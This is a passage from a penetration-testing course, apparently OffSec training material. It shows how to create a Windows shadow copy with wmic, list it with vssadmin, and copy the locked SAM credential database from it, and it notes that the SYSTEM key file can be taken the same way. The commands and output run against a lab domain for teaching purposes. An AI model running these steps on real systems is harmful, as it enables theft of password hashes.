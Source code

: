 Specifically, we’ll launch wmic,[11](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5349-11) specify the shadowcopy class, create a new shadow volume and specify the source drive with "Volume='C:\'". This will create a snapshot of the C drive.

```
C:\> wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{13FB63F9-F631-408A-B876-9032A9609C22}";
};
```

> Listing 4 - Creating a shadow volume

To verify this, we'll run vssadmin and list the existing shadow volumes with list shadows:

```
C:\> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {8e3a3a18-93a6-4b18-bc54-7639a9baf7b2}
   Contained 1 shadow copies at creation time: 11/14/2019 6:53:26 AM
      Shadow Copy ID: {13fb63f9-f631-408a-b876-9032a9609c22}
         Original Volume: (C:)\\?\Volume{a74776de-f90e-4e66-bbeb-1e507d7fa0d4}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Client.corp1.com
         Service Machine: Client.corp1.com
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

> Listing 5 - Listing shadow volumes

Now that we've confirmed the creation of the shadow volume, we can copy the SAM database from it using the source path highlighted in the output of Listing 5:

```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
        1 file(s) copied.
```

> Listing 6 - Shadow copying the SAM database

Note that the above command must be run from a standard cmd.exe prompt, not from a PowerShell prompt.

Although we have copied the SAM database, it is partially encrypted by either RC4 (Windows 10 prior to Anniversary edition also called 1607 or RS1) or AES[12](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5349-12) (Anniversary edition and newer). The encryption keys are stored in the _SYSTEM_ file, which is in the same folder as the SAM database. However, it is also locked by the _SYSTEM_ account. We can reuse our shadow volume copy to copy this file as well:
